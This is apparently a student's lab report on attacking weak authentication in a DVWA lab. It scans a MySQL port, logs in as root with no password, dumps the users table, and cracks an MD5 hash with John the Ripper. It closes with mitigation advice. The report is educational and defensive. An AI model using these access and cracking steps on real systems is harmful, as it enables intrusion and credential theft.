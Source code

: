 # 🧪 Lab 2: Cryptographic Attacks – Breaking Weak Hashes & Investigating Poor Database Authentication

**👨‍🏫 Student Name**: Muhammad Aabas Bin Md Suji  
**📅 Lab Date**: 25 April 2025  
**⏰ Duration**: Approximately 3 Hours  
**📊 Total Score**: 15 Marks  
**🧠 Lab Format**: Practical Exercise + Report Writing + Presentation/Debrief

---

## 🎯 A. Objectives

This lab is designed to help students:

1. Explore and exploit common cryptographic flaws in authentication systems.
2. Extract and crack password hashes stored insecurely in a vulnerable database.
3. Understand the impact of real-world cryptographic misconfigurations.
4. Present findings clearly through GitHub Markdown and a short live explanation/demo.

---

## 🔧 B. Tools and Resources

The following tools were used to complete this lab:

- `Kali Linux` – Main penetration testing environment  
- `nmap` – To identify open ports and services  
- `mysql-client` – For interacting with the MySQL server  
- `hashid` – To detect hash types  
- `john the ripper` – For cracking password hashes  
- `wireshark` – Optional tool to inspect network traffic for plaintext credentials (bonus)

---

## 🌐 IP Addresses

- **Attacker**: `192.168.157.142`  
- **Victim**: `192.168.157.137`  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.157.137 > nmap.txt

```
![nmap](screenshot/nmap_scan.png)

- Identified that **MySQL** was running on port **3306**.

**Attempting Connection:**

```bash
mysql -h 192.168.157.137 -u root --password=""
```

**Error Encountered:**
```vbnet
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

### 🔍 What's actually going wrong?
By default, modern MySQL clients try to connect using SSL/TLS.
But:

- If the server is old (e.g. MySQL 5.5 or earlier), it might not support TLS properly.
- If SSL is not configured on the server, the client handshake will fail.
- If the client expects TLS 1.2+, and the server doesn't support it, you get a mismatch.


**Solution:**

```bash
mysql -h 192.168.157.137 -u root --password="" --ssl=0
```
You need to tell the client not to use SSL. You already found the correct fix:

![fix command](screenshot/fix_command.png)

✅ **Resolved**: TLS version mismatch between MySQL client and server.

> **Note**:  
> The `--ssl=0` option disables **SSL** completely, which matches what the server expects — plain unencrypted connection.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
```

**Expected Output:**

![table dvwa](screenshot/table.png)

**Querying user data:**

```sql
SELECT * FROM users;
```

- Found usernames and MD5 password hashes.
- Selected user admin for cracking.

![users](screenshot/users.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ Absolutely — it violates basic secure authentication practices.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hash indentify](screenshot/hash_indentify.png)

> ⚠️ **Reflection**:  
> Why is MD5 considered insecure? 
> - It’s fast and unsalted, making it highly vulnerable to rainbow tables and brute-force attacks.



---

### 4. 🧨 Offline Hash Cracking

Used `john the ripper` to perform brute-force on the MD5 hash:

### 🧠 John is picky about formats
John tries to guess the format from the structure of the hash. If it doesn’t recognize it, or the structure is too simple (like plain MD5), you must manually tell John what it is, using:

```bash
john --format=raw-md5 --wordlist=password.txt hash.txt

```

✅ **Result:**
```makefile
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![john](image.png)

**Cracked Password**: `password`

> This is one of the most common weak passwords — easily guessable and widely used.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Weakness Summary

| Area          | Issue                      |
|---------------|----------------------------|
| Authentication | Weak/missing passwords     |
| Hashing        | Unsalted MD5 hashes        |
| Transmission   | Unencrypted data in transit|


#### 🔧 Recommendations:

- **Authentication**: Enforce password complexity rules and use rate limiting (`fail2ban`, `CAPTCHA`).
- **Hashing**: Replace MD5 with bcrypt, scrypt, or Argon2.
- **Transmission**: Use **TLS/SSL** for all database connections.

#### 🕵️ Wireshark Observation:
Traffic captured showed unencrypted SQL queries and sensitive data in transit.

- run wireshark then open users from dvwa mysql table.

![wireshark](screenshot/wireshark.png)
---

## ✅ Conclusion

This lab exercise demonstrated the serious risks posed by outdated cryptographic practices in modern systems. Weak credentials, insecure hashing algorithms, and lack of encrypted communication can all be exploited.

To secure such systems:
- Enforce strict password and authentication policies.
- Use modern, slow, and salted hashing algorithms.
- Encrypt all traffic between clients and servers.

🔒 **Legacy systems should always be reviewed for cryptographic flaws.**